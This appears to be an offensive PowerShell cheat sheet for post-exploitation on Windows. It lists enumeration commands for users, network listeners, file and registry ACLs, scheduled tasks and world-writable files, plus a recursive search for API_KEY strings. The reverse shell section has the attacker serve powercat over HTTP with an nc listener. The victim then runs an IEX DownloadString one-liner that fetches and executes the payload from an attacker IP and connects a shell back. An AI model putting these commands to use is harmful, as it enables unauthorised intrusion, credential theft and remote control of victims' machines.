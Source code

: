 # Enumeration

The first step when you have gained initial access to any machine would be to enumerate. We'll be enumerating the following:
## users:
```
Get-LocalUser
(Get-LocalUser).Name
(Get-LocalUser).Name.Count
Get-LocalUser -SID "sid_value"
Get-LocalUser | Where-Object -Property PasswordRequired -Match false
Get-LocalGroup | measure
```
## basic networking information:
```
Get-NetIPAddress
Get-NetTCPConnection | Where-Object -Property State -Match Listen | measure
get-nettcpconnection | where {$_.state -eq "listen" -and $_.localport -eq 445}
Get-NetRoute
Get-NetAdapter -Name * -IncludeHidden
Get-NetAdapter -Name * -Physical
```
## file permissions:
```
Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
Get-Acl C:\ | Format-List
Get-ChildItem C:\ -Recurse | Get-Acl | Select-Object PSChildName, AccessToString | Format-List
```
## registry permissions:
```
Get-Acl "HKLM:\Software" | Format-List
Get-Hotfix
Get-Hotfix -Id KB4023834
```
## scheduled and running tasks:
```
Get-Process
Get-ScheduledTask -TaskName * | Format-List
Get-ScheduledTask | Where-Object {$_.State -eq "Running"}
get-scheduledtask | where {$_.taskname -eq "new-sched-task"}
```
## insecure files:
```
Get-ChildItem -Recurse C:\ | Get-Acl | Where-Object {($_.AccessToString -match "Everyone") -and ($_.AccessToString -match "FullControl")}
```
 
# Reverse Shell

## Attacker's Machine:
```
git clone https://github.com/besimorhino/powercat && cd powercat
python3 -m http.server 8080
nc -lvnp 1337
```
## Victim's Machine:
- Execution Policy:
```
Get-ExecutionPolicy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
Download and execute payload:
```
IEX(New-Object System.Net.WebClient).DownloadString('http://[Attacker's IP]:8080/powercat.ps1'); powercat -c [Attacker's IP] -p 1337 -ep
```

